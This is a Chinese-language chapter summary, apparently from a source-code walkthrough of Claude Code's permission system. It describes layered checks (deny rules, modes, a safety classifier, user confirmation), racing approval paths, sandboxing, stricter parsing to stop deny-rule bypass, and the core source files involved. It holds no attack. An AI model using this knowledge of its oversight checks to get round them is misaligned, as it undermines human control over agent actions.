整个系统的核心理念：**快的决策先做，慢的决策后做**。能用规则解决的不用 AI，能用 AI 解决的不打扰用户。但安全是底线——无论多"信任"，某些敏感操作永远需要人类确认。

---

## 本章小结

Claude Code 的权限模型是一个**分层**、**投机**、**多路竞赛**的系统：

1. **分层**：四层决策（规则 -> 模式 -> 分类器 -> 用户），从快到慢，从确定到模糊。deny 规则在任何层级都不可被覆盖。

2. **投机**：投机性分类器检查、acceptEdits 快速路径、安全工具白名单——系统不断寻找"不需要麻烦用户"的捷径。

3. **多路竞赛**：交互式路径中，用户点击、hooks、分类器、Bridge、Channel 五路竞赛，`claim()` 机制保证只有第一个响应者生效。

4. **沙箱互补**：权限决定"是否允许"，沙箱决定"允许后的影响范围"。两者正交组合，构成完整的安全网。

5. **DSL 驱动**：`Bash(git commit:*)` 风格的规则语法，让用户可以精细控制到命令前缀级别，同时 deny 规则采用更激进的命令解析来防止绕过。

核心文件导航：

| 文件 | 职责 |
|---|---|
| `utils/permissions/permissions.ts` | 四层决策管线的核心实现 |
| `utils/permissions/permissionRuleParser.ts` | `ToolName(content)` DSL 的解析与序列化 |
| `types/permissions.ts` | 所有权限相关的类型定义 |
| `tools/BashTool/bashPermissions.ts` | Bash 工具的深度权限检查（2600+ 行） |
| `hooks/useCanUseTool.tsx` | 三条权限路径的入口与 UI 集成 |
| `hooks/toolPermission/handlers/*.ts` | 协调器/Swarm/交互式三种处理器 |
| `utils/sandbox/sandbox-adapter.ts` | 沙箱配置生成与生命周期管理 |
| `utils/hooks.ts` | PreToolUse/PostToolUse/PermissionRequest hooks |
